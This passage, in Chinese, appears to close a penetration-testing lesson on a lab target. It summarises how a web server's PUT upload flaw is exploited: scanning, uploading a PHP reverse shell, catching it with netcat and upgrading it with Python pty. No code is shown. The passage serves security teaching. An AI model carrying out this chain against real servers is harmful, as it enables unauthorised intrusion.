

此时，我们可能发现当前用户并非最高权限的 `root`，而是如 `www-data` 的低权限用户。这就需要我们进行下一步：权限提升（Privilege Escalation），这将是下节课的内容。

## 总结
本节课中，我们一起学习了PUT上传漏洞的完整利用流程。

1.  **信息收集**：使用Nmap、nikto、dirb等工具扫描目标，发现开放服务和敏感目录。
2.  **漏洞探测**：通过curl手动测试HTTP方法，发现 `/test` 目录支持PUT方法，存在上传漏洞。
3.  **漏洞利用**：
    *   准备一个PHP反弹Shell脚本。
    *   利用PUT请求将Shell脚本上传至目标服务器。
    *   在攻击机使用netcat开启端口监听。
    *   访问上传的Shell脚本文件，触发反弹连接。
4.  **获取访问权限**：成功接收到反弹的Shell，获得对靶场机器的初步访问权限。
5.  **Shell优化**：使用Python的pty模块改善Shell的交互性。

通过这一系列操作，我们成功利用了中间件的PUT上传漏洞，从外部获取了目标服务器的Shell，为后续的权限提升和获取flag打下了基础。